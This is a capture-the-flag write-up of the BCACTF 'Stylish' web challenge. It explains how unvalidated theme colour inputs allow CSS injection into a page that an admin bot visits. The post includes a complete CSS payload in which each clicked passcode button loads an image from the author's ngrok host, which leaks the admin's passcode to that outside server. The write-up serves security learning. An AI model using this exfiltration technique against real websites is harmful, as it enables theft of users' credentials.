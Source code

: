 +++
title = "BCACTF Stylish"
date = "2021-06-14T01:46:05+02:00"
author = "Filip Poplewski"
tags = ["CTF", "Web", "English"]
cover = "https://ctftime.org/media/events/LogoArtboard_1.png"
description = """


What can happen if we give users ability to change the color on the website.   
Oh... hack into administrator account, how is this even possible???   
"""

showFullContent = false
readingTime = false
hideComments = false
color = "green" #color from the theme settings
+++



# Stylish

## Challenge description 
![img](/BCACTF/Pasted_image_20210614000841.png)</br>
Stylish is the one of the hardest challenges at the website and it give us 400 points.
Organizers give us URL to website and server source code files.  


## Look at the website 
![img](/BCACTF/Pasted_image_20210613000440.png)</br>
![img](/BCACTF/Pasted_image_20210613000518.png)</br>
Ok so as we can see at website we have got 4 color inputs serialized with JSON and send by GET parameter. By clicking "Submit for review" button we can  send them to admin.    
But second important thing in our website is "Get flag" button.

![img](/BCACTF/Pasted_image_20210613000448.png)</br>
Our goal in this CTF is steal admin secret code to the flag.

## Look at the source code 
#### passcode.js
```js
export default function generatePasscode() {
	const chars = ["0", "1", "2", "3", "4", "5", "6", "7", "8", "9", "A", "B", "C", "D", "E", "F"];
	for (let i = 0; i < chars.length - 1; i++) {
		let temp = chars[i];
		let j = Math.floor(Math.random() * (chars.length - i)) + i;
		chars[i] = chars[j];
		chars[j] = temp;
	}
	return chars.join("");
}
```
Password is generated from 16 hexadecimal character in random order. 

#### server.js
```js
app.post("/submit", async (req, res) => {

 try {
	 const {bg, fg, bbg, bfg} = req.body;
	 if (typeof bg !== "string") return res.status(400).type("txt").send("bg must be a string");
	 if (typeof fg !== "string") return res.status(400).type("txt").send("fg must be a string");
	 if (typeof bbg !== "string") return res.status(400).type("txt").send("bbg must be a string");
	 if (typeof bfg !== "string") return res.status(400).type("txt").send("bfg must be a string");
	 const encoded = encodeURIComponent(JSON.stringify({ bg, fg, bbg, bfg }));
	 if (encoded.length > 2000) return res.status(400).type("txt").send("Theme permalink too long (>2000 chars)");

  

	 await visit('http://localhost:1337/#${encoded}', passcode);
	 res.type("txt");
	 res.send("The admin has checked out your theme!");
 } catch (e) {
	 console.error(e.stack);
	 res.sendStatus(500);
 }
});
```
#### visit.js
```js
 await page.goto(url, {waitUntil: "load", timeout: 1000});
 await page.click("#get-flag");
 await page.waitForSelector(".e");

 for (let i \= 0; i < passcode.length; i++) {
	const char \= passcode.charAt(i);
	const id \= "button" + Math.floor(Math.random() \* 123456);
	await page.evaluate(\`
		document.querySelectorAll(".e > button").forEach(button => {
			if (button.innerText === "${char}") {
				button.id = "${id}";
			}
		})
	`);
	await page.click(\`#${id}\`);
	await timeout(50);
 }
 await page.click(".s");
 await timeout(1000);
 ```
By looking at the source code we can see that CSS sent by user isn't verified at all (except checking if it is string but it's not problem at all) so we can easily inject own CSS style.
After setting our CSS style admin sets id (always beginning at "button") to button which creates randomly generated passcode and click them.   


### Attack scenario
1. Send to admin CSS which will try to load background from website hosted on our PC. According on which button have been clicked it will be try to download file with button number. For example if clicked button will be "F" it will try to load img from www.my_website.com/F, if clicked button will be "4" it will try to download www.my_website.com/4.
2. Listen on server img requests.
3. Login for flag with obtained numbers.

### CSS payload
```css
red;}
button:nth-child(1)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/0")}
button:nth-child(2)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/1")}
button:nth-child(3)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/2")}
button:nth-child(4)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/3")}
button:nth-child(5)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/4")}
button:nth-child(6)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/5")}
button:nth-child(7)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/6")}
button:nth-child(8)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/7")}
button:nth-child(9)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/8")}
button:nth-child(10)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/9")}
button:nth-child(11)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/A")}
button:nth-child(12)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/B")}
button:nth-child(13)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/C")}
button:nth-child(14)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/D")}
button:nth-child(15)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/E")}
button:nth-child(16)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/F")}
```





### payload sent
![img](/BCACTF/Pasted_image_20210612234737.png)</br>
Unfortunately my exploit doesn't catch one number (zero) so I had to brute force his position :(

![img](/BCACTF/Pasted_image_20210613000604.png)</br>
After 
few minute we got the flag.
